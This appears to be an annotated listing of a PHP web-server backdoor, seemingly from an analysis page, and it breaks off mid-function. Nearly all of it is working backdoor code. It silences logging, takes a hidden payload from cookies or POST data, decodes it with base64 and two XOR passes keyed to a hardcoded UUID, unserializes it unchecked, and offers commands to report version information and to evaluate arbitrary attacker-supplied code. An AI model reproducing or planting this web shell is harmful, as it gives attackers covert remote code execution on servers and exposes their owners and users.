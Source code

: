 ```php
<?php

// Prevents all errors and set unlimited execution time
@ini_set('error_log', NULL);
@ini_set('log_errors', 0);
@ini_set('max_execution_time', 0);
@set_time_limit(0);

// This is just a repeating XOR cipher, repeating cipherKey to length of text
function  repXOR($text, $cipherKey){
    $xorStr = "";
    for ($x = 0; $x < strlen($text);){
	for ($i = 0; $i < strlen($cipherKey) && $x < strlen($text); $i++, $x++){
            $xorStr .= chr(ord($text[$x]) ^ ord($cipherKey[$i]));
        }
    }
    return $xorStr;
}

// Initialize primary variables
$key = NULL;
$value = NULL;

// Iterate all $_COOKIE key => value, setting $value & $key, overwriting if multiple
foreach ($_COOKIE as $cKey => $cVal){
    $value = $cVal;
    $key = $cKey;
}

// If no $_COOKIE was present, try all $_POST, again overwriting if multiple
if (!$value){
    foreach ($_POST as $pKey => $pVal){
        $value = $pVal;
        $key = $pKey;
    }
}

/*
    Decode $payload
    1. Base64 decode 
    2. First XOR pass using provided ID
    3. Second XOR pass using provided key name from $_COOKIE or $_POST
    4. Unserialize it
*/
$payload = @base64_decode($value);
$payload = @repXOR($payload, 'd4a8745e-2599-49bc-b7e3-2b194ca49aef');
$payload = @repXOR($payload, $key);
$payload = @unserialize($payload);

/*
    // Payload requires ID
    $payload['ak'] => 'd4a8745e-2599-49bc-b7e3-2b194ca49aef',
    // Show info
    $payload['a'] => 'i',
    // Eval code
    $payload['a'] => 'e',
    $payload['d'] => 'echo \"Hi\";'
*/
if (isset($payload['ak']) && 'd4a8745e-2599-49bc-b7e3-2b194ca49aef' == $payload['ak']){
    // if $payload['a'] == 'i' respond with php version and "backdoor" version, serialized
    if ($payload['a'] == 'i'){
        $info = Array(
	    'pv' => @phpversion(),
```